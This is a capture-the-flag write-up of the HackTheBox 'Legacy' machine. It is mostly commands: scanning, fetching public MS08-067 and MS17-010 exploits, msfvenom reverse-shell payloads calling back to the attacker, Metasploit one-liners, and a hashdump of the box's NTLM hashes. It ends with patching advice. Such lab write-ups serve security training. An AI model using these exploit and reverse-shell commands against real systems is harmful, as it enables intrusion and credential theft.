 ```yaml
---
title: Legacy Writeup
date: 2021-12-27
categories: [Writeup, HackTheBox]
tags: hackthebox, OSCP, WriteUp, Windows, windowsxp, eternalblue, MS08-067, MS17-010, TJNULLs List
image:
  src: ./Images/Legacy-infocard.png
  width: 697   # in pixels
  height: 517   # in pixels
  alt: image alternative text
---
```


In this writeup I have pwned Legacy from hackthebox in all possible ways using manual exploits and metasploit.

MS08-067, MS17-010

### Enumeration

#### rustscan
```
rustscan --accessible -a 10.129.178.214 -- -Pn -p-
```
![](./Images/2021-12-29-13-18-11.png)
_rustscan results_

#### nmap
```
sudo nmap -Pn -A -O -p 139,445 10.129.178.214 | tee nmap.log
```
![](./Images/2021-12-29-13-39-30.png)
_nmap results_

```
sudo nmap -Pn --script=smb-vuln* -p 139,445 10.129.178.214 | tee nmap-vulns.log
```
![](./Images/2021-12-29-13-53-30.png)
_nmap vulnerablity scan results_

Target running 
- OS : Windows XP SP2 or Later.
- SMB Service with disabled message signing.

This can lead to exploitation using eternal blue exploit on outdated OS with vulnerable state of service.

nmap vulnerablity script scan gave confirmation target is vulnerable to 
- CVE-2008-4250 : Microsoft Windows system vulnerable to remote code execution (MS08-067)
- CVE-2017-0143 : Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

#### smbclient

```
smbclient -NL 10.129.178.214
smbmap -H 10.129.178.214
```
**`smbmap`** and **`smbclient`** confirmed no shares are accessible.

---

### Exploitation

#### MS08-067

For exploiting the target using MS08-067 we can use the following exploit from github. [MS08-067](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```
wget "https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py"
```

This exploit have dependencies of python library `pycryptodomex / pycryptodome` which was previously known as `pycrypto`.

Installing `impacket` in python virtual environment will fulfill the minimum requirement to execute exploit.

```
virtualenv -p /usr/bin/python venv
source venv/bin/activate

git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .

# cd back to exploit location.
```
![](./Images/2021-12-29-14-19-08.png)

Now we can test if exploit is usable using simple run.
```
python ms08-067.py
```
This will give usage example to run this exploit.
![](./Images/2021-12-29-14-20-10.png)

This exploit also requires shellcode to get a reverse shell. 
We can generate shell code using following
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
![](./Images/2021-12-29-14-22-21.png)

We have to copy this generated shellcode and put it in exploit at line 53.

We have to remove the existing shell code and put out shellcode in `shellcode()` function.

![](./Images/2021-12-29-14-24-04.png)

Now we are ready to execute exploit script using the following command.

```
rlwrap nc -lvnp 1337 # setting up listener

python ms08-067.py 10.129.178.214 6 445
```

> Note : We are selecting 6 because target is running Windows XP SP3 which was found in nmap enumeration. In case of other language of XP or other varient of OS. Enumeration and hit n trial will be required.

**And finally we get a shell.**
![](./Images/2021-12-29-14-30-47.png)

---

#### MS17-010

For exploiting the target using MS17-010 we can use the following exploit from github. [MS17-010](https://github.com/helviojunior/MS17-010)

```
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010/
python checker.py 10.129.178.214
```
The `checker.py` script also confirms this is vulnerable to MS17-010.

![](./Images/2021-12-29-14-37-03.png)

This exploit requires malicious executable to get a reverse shell. We will create it using following commands in the same location of exploit.
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > eternalblue.exe
```

And run the exploit after setting up ncat listener.

```
rlwrap nc -lvnp 1337

# python send_and_execute.py TARGET_IP eternalblue.exe
python send_and_execute.py 10.129.178.214 eternalblue.exe
```

**And finally we get a shell.**
![](./Images/2021-12-29-14-44-43.png)

---

#### Metasploit | MS17-010

With below one liner we can exploit target with Metasploit MS17-010 module and get meterpreter shell.
```
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.178.214; run;"
```
![](./Images/2021-12-29-15-04-07.png)


#### Metasploit | MS08-067

```
msfconsole -q -x "use exploit/windows/smb/ms08_067_netapi; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 5555; set RHOSTS 10.129.178.214; run;"
```
![](./Images/2021-12-29-15-07-49.png)

---

### Post Exploitation
This system didn't had whoami to check the privileges.

#### nc TCP Reverse Shell 

Using SMB Server and executing we got to know we have highest privilege in system.

```
# in attacker machine
sudo smbserver.py a /usr/share/windows-resources/binaries/ 

# in target machine
\\10.10.17.81\a\whoami.exe
```

![](./Images/2021-12-29-15-26-32.png)

#### Meterpreter

Using `getuid` we got current user. 
And using `hashdump` following hashes were collected.
```hash
Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::
```

![](./Images/2021-12-29-15-33-30.png)

---

### Recommendation

SMB was enabled on outdated un-supported Winodws XP and SMB message signing was disabled. And running with privileges of Administrator.

> Update to latest supported version of Windows. 
> Advise not to run SMB service with disabled message signing as Administrator.

---

### Key Learning
In this pentest, with easiest enumeration we got to know target is vulnerable to eternal blue. And there are a lot of exploits available for this on github and other resources.

Going forward keeping a fork of working exploit with instructions to run it will help saving a a lot time in pentest period.

Outdated exploits like Eternal blue have dependency issues because of older version of python libraries. 

To save trouble it would be good idea to get libraries in virtual environment and run the exploit.

---